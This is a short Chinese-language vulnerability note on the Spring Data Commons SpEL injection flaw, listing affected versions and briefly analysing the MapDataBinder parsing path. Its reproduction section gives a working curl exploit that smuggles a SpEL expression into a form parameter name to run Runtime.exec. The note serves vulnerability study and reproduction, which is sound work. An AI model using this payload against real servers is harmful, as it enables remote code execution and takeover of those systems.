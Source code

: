 Spring Data 是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons 是 Spring Data 下所有子项目共享的基础框架。Spring Data Commons 部分版本存在漏洞，攻击者可构造包含有恶意代码的 SPEL 表达式实现远程代码攻击，直接获取服务器控制权限。

> Spring Data Commons 1.13 to 1.13.10
>
> Spring Data Commons 2.0 to 2.0.5

#### 简单代码分析

org.springframework.data.web.MapDataBinder 类中，Spring 在自动解析用户的参数的时候采用了 SpelExpressionParser 来解析 propertyName，但是并没有对参数进行进行有效的校验。

![企业微信截图_20230518160531](./img/spring/企业微信截图_20230518160531.png)

#### 漏洞复现

exp 如下：

```
curl -X POST http://localhost:8080/account -d "name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('calc.exe')]=123"
```

![企业微信截图_20230518160733](./img/spring/企业微信截图_20230518160733.png)
